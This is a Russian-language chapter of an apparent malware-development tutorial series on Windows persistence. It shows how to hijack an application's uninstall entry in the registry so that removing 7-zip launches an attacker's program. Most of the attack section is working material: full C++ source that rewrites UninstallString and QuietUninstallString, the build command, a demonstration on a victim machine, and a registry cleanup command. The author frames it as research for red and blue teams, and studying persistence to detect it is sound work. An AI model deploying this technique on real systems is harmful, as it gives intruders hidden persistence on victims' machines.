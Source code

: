 \newpage
\subsection{79. разработка вредоносного ПО: закрепление (persistence) - часть 13. Захват логики удаления приложения. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/73/2022-10-04_21-03_1.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через захват файла удаления целевого приложения.     

### процесс удаления

Когда вы устанавливаете программу в системе Windows, она обычно указывает на свой собственный деинсталлятор. Они находятся в следующих ключах реестра:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<application name>`    

и  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<application name>`     

Так в чем же трюк? Нет никаких проблем с их заменой на команды, которые могут запустить любую другую программу. Когда пользователь выполняет деинсталлятор, выполняется команда, выбранная атакующим. Опять же, хорошая новость заключается в том, что для изменения этих элементов требуются привилегии, так как они находятся под ключом `HKLM`.     

### практический пример

Рассмотрим практический пример. Во-первых, выберем целевое приложение. Я выбрал `7-zip x64`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15_1.png){width="80%"}    

Затем проверим значения ключей реестра на корректность:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](./images/73/2022-10-04_20-08.png){width="80%"}    

Также я подготовил свое вредоносное приложение. Как обычно, это `meow-meow` "вредоносное ПО" :)    

![pers](./images/73/2022-10-04_20-10.png){width="80%"}    

Затем я создаю программу, которая выполняет мою логику для закрепления (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add 
    //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
    // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста, мы просто обновляем целевые значения ключей в реестре.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем вредоносное ПО и скрипт закрепления:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/73/2022-10-04_20-09.png){width="80%"}    

И запускаем на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
.\pers.exe
```

![pers](./images/73/2022-10-04_20-59.png){width="80%"}    

Наконец, после перезагрузки системы попробовал удалить `7-zip`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_21-01.png){width="80%"}    

![pers](./images/73/2022-10-04_21-03.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/73/2022-10-04_21-05.png){width="80%"}    

Как можно видеть, родительский процесс - `SystemSettings.exe`, который появляется при открытии настроек Windows. В нашем случае это "Добавление/Удаление программ". Идеально! =^..^=    

Есть небольшая загвоздка. Когда я попытался обновить ключ с путем `Z:\2022-10-04-malware-pers-13\hack.exe`, я получил ошибку:    

![pers](./images/73/2022-10-05_17-37.png){width="80%"}    

Возможно, можно использовать только пути внутри диска `C:\`.    

После завершения экспериментов очистка:    

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" \
/v "UninstallString" /t REG_SZ /d "C:\\Program Files\\7-zip\\Uninstall.exe" /f
```

![pers](./images/73/2022-10-05_17-50.png){width="80%"}    

### заключение

Конечно, возможно, этот трюк не так хорош для закрепления, так как он требует разрешений и участия пользователя-жертвы. Но почему бы и нет?    

Есть еще один трюк, связанный с установкой и удалением программ для закрепления, о нем я напишу в одном из будущих постов. Я все еще исследую эту возможность для red team.    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     
